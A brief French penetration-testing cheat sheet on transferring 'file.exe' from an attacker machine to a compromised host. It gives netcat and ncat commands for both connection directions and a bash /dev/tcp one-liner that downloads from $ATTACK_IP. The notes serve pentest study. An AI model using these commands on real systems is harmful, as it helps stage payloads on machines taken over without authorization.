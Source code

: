 ```yaml
---
public: true # set to true to make the article publishable
---
```


| Attackbox   ENVOIE file.exe vers | Compromised host |

| --- |  --- |

| ETABLIT LA CONNEXION |  |

| `nc -q 0 $TARGET_IP 443 < file.exe` | `nc -l -p 443 > file.exe`|

| `ncat --send-only $TARGET_IP 443 < file.exe` | `ncat -l -p 443 --recv-only > file.exe`|

| Attackbox   ENVOIE file.exe vers | Compromised host |

| --- |  --- |

|  | ETABLIT LA CONNEXION |

| `nc -l -p 443 < file.exe` | `nc -q 0 $TARGET_IP 443`|

| `ncat -l -p 443 --send-only < file.exe` | `ncat --recv-only $TARGET_IP 443 > file.exe`|

```
# se connecte à $ATTACK_IP et download file.exe
cat < /dev/tcp/$ATTACK_IP/443 > file.exe
```
